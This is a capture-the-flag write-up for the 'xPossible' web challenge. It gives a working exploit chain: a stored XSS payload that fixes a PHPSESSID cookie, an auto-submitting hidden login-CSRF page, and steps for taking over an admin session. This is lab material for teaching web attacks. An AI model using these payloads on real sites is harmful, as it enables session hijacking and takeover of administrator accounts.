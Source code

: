 # Exploit `xPossible` chanllenge

## Source
- [challenge source](https://github.com/VoorivexTeam/white-box-challenges/tree/main/xPossible)

## WriteUp

- login to your user, `user`:`pass`
- update your profile
- `name`:
```html
<script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>
```
this payload will set a valid session id that we have, put your session id, (`PHPSESSID` is in your `cookies`)

- submit your profile
- create another page with this code
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Redirector</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            line-height: 1.6;
        }
        .login-form {
            display: none; /* Hide the form */
        }
    </style>
</head>
<body>
    <h1>Login to xPossible</h1>
    
    <!-- Method 1: Form submission -->
    <div class="login-form">
        <h2>Method 1: Direct Form Submission</h2>
        <form id="loginForm" action="http://mysite.com:10000/index.php" method="POST">
            <input type="text" name="username" placeholder="Username" value="user" required>
            <input type="password" name="password" placeholder="Password" value="pass" required>
            <input type="hidden" name="login" value="1">
            <button type="submit">Login</button>
        </form>
    </div>

    <script>
        // Automatically submit the form when page loads
        window.onload = function() {
            document.getElementById('loginForm').submit();
        };
        //"<script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>"
    </script>
</body>
</html>

```
code will login to your account and make that XSS payload run, when the `victim` visit this page, will login to your account, and logout base on your XSS

- give this page to a admin, when the admin visit this page, will logged in to your account, make the XSS to run, and then logged out
- next time the admin logged in to his/her account, the data will be saved on the session that you wrote with your XSS
- just put the `PHPSESSID` in your `cookies` and you are in admin account.
